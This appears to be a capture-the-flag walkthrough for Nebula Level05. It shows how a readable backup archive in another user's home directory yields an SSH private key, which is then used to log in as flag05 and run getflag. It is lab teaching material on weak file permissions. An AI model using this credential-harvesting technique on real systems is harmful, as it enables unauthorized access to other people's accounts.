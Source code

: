 * Level05
  :PROPERTIES:
  :CUSTOM_ID: level05
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  Check the flag05 home directory. You are looking for weak directory
  permissions
#+end_quote

#+begin_quote
  To do this level, log in as the level05 account with the password
  level05. Files for this level can be found in /home/flag05.
#+end_quote

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
looking in the directory we see a =.backup= folder with "lax"
permissions

#+begin_example
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
#+end_example

looking in the =.backup= folder we see a =.tgz= archive

#+begin_example
level05@nebula:/home/flag05$ ls -la .backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
#+end_example

unarchiving it shows an ssh key

#+begin_example
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz ~
level05@nebula:/home/flag05/.backup$ cd
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ tar xvzf ./backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
#+end_example

using the key to ssh allows us to login as the flag user

#+begin_example
level05@nebula:~$ ssh flag05@localhost -i .ssh/id_rsa
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
#+end_example

#+begin_example
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
#+end_example
